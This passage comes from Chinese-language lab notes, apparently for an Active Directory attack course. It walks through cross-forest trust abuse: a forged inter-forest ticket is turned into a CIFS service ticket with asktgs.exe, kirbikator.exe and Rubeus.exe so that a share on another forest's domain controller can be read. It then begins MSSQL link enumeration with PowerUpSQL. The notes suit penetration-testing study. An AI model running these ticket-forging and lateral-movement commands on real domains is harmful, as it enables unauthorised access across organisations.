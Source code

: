 
GroupDomain  : moneycorp.local
GroupName    : Enterprise Admins
MemberDomain : moneycorp.local
MemberName   : Administrator
MemberSID    : S-1-5-21-280534878-1496970234-700767426-500
IsGroup      : False
MemberDN     : CN=Administrator,CN=Users,DC=moneycorp,DC=local
```

制作一张可以访问EUROCORP.LOCAL的TGS

```
.\asktgs.exe C:\AD\kekeo_old\trust_forest_tkt.kirbi CIFS/eurocorp-dc.eurocorp.local
```

将 TGS 呈现给目标服务
```
.\kirbikator.exe lsa .\CIFS.eurocorp-dc.eurocorp.local.kirbi
```

查看目标计算机里的SharedwithDCorp文件夹
```
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

## 方法二（rebuse.exe）


同样的，也可以使用Rubeus.exe，复用上面已经生成的TGT，生成TGS
```
.\Rubeus.exe asktgs /ticket:C:\AD\kekeo_old\trust_forest_tkt.kirbi /service:cifs/eurocorp-dc.eurocorp.local /dc:eurocorp-dc.eurocorp.local /ptt
```

访问对方林中的计算机
```
ls \\eurocorp-dc.eurocorp.local\SharedwithDCorp\
```

# Trust Abuse - MSSQL

## 原理
微软的SQL 服务通常部署在一个 Windows 域中
SQL Servers为横向移动提供了非常好的选项，因为域用户可以映射到数据库角色
数据库链接允许 SQL Server 访问外部数据源，如其他SQL Server和OLE DB 数据源
如果数据库链接在 SQL 服务器之间，也就是链接的SQL 服务器，则可以执行存储过程，数据库链接甚至可以对跨林信任有效

枚举当前账号（student366）是否对MSSQLSERVER有权限，收集信息（如果枚举不出来，重启一下VM）
```
PS C:\ad\PowerUpSQL-master> Import-Module .\PowerUpSQL.psd1
WARNING: The names of some imported commands from the module 'PowerUpSQL' include unapproved verbs that might make them
 less discoverable. To find the commands with unapproved verbs, run the Import-Module command again with the Verbose
parameter. For a list of approved verbs, type Get-Verb.
PS C:\ad\PowerUpSQL-master> Get-SQLInstanceDomain |Get-SQLServerInfo 

